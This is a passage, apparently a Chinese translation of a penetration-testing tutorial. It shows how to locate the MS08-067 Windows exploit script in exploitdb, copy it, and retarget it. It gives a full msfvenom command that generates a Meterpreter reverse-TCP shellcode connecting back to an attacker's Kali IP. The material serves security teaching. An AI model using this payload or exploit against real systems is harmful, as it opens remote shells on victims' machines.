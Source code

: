 输出将如下截图所示：

![如何做...](img/image_04_042.jpg)

1.  我们可以看到有一个名为“Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)”的 Python 脚本可用。现在我们读取 Python 文件的内容，文件路径是`/usr/share/exploitdb/platforms/windows/remote/40279.py`。在桌面上复制一份相同的文件。![如何做...](img/image_04_043.jpg)

1.  在阅读文件时，发现脚本使用了一个连接到不同 IP 和端口的自定义有效载荷：![如何做...](img/image_04_044.jpg)

1.  所以我们必须首先编辑代码，并将我们想要执行的有效载荷指向我们的 IP 地址和端口。为了做到这一点，我们将使用`msfvenom`创建我们的有效载荷，以便我们可以让这个脚本执行。在 Kali 终端上输入以下命令，为 Kali IP 创建一个用于反向连接的 Python shell 代码：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali IP
Address> LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2f
x2ex40" -f python -a x86

```

输出将如下截图所示：
